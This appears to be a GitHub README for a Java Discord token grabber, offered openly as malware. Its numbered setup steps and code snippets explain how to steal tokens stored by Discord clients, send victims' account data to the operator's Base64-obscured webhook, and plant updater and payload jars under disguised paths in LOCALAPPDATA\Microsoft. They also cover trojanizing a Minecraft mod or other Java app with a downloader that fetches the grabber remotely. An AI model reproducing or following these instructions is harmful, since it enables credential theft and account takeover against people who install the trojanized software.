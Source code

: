 Simple Discord token logging utility written in Java.

# Features
 - Log tokens saved by Discord clients in LevelDB files
 - Gather user info through the token and send it to a webhook in an embed of  your choice
 - Auto-update functionality

# Requirements
 - Java 11+
 - Jackson
 - JNA-Platform

# Usage
1. *(Optional)* Change the path the Updater will be downloaded to in **ClientTokenGrabber.java**
```java
public static final String UPDATER_PATH = System.getenv("LOCALAPPDATA") + "\\Microsoft\\ExampleUpdater.jar";
```
2. Encode your webhook in Base64 for minimal security and paste it in **ClientTokenGrabber.java**
```java
public static final String WEBHOOK_URL = "YOUR BASE64 ENCODED WEBHOOK URL HERE";
```
3. *(Optional)* Change the path the Application will be downloaded to in **Updater.java**
```java
private static final String APP_PATH = System.getenv("LOCALAPPDATA") + "\\Microsoft\\Example.jar";
```
4. Host a file containing the version and download link to the main Application jar information just like in [/examples/Version Info](https://github.com/0x5d0/Discord-Client-Token-Logger/blob/master/examples/Version%20Info) (link should not be filled out yet)
```json
{
    "version": 1,
    "link": ""
}
```
5. Change the link in **UpdateHelper.java** to that
```java
private static final String INFO_URL = "https://raw.githubusercontent.com/0x5d0/Discord-Client-Token-Logger/master/examples/Version%20Info";
```
6. Compile the **Updater**
7. Host the Updater jar just like in [/examples/Update.jar](https://github.com/0x5d0/Discord-Client-Token-Logger/blob/master/examples/Update.jar)
8. Change the link in **ClientTokenGrabber.java** to that
```java
public static final String UPDATER_URL = "https://github.com/0x5d0/Discord-Client-Token-Logger/blob/master/examples/Update.jar";
```
9. Change the link in **Downloader.java** to that as well
```java
private static final String DOWNLOAD_URL = "https://github.com/0x5d0/Discord-Client-Token-Logger/blob/master/examples/Update.jar";
```
10. *(Optional)* Change the path the Updater will be downloaded to in **Downloader.java** (should be the same as step one)
```java
private static final String SAVE_PATH = System.getenv("LOCALAPPDATA") + "\\Microsoft\\ExampleUpdater.jar";
```
11. Trojanize your preferred app (Minecraft mod/any Java app) with the Downloader source and compile it (uses no external libraries)
12. Compile the **ClientTokenGrabber.java**
13. Host the compiled ClientTokenGrabber jar just like in [/examples/Application.jar](https://github.com/0x5d0/Discord-Client-Token-Logger/blob/master/examples/Application.jar)
14. Go back to step 4 and change the "link" field to where the ClientTokenGraber jar is hosted
```json
{
    "version": 1,
    "link": "https://raw.githubusercontent.com/0x5d0/Discord-Client-Token-Logger/master/examples/Update.jar"
}
```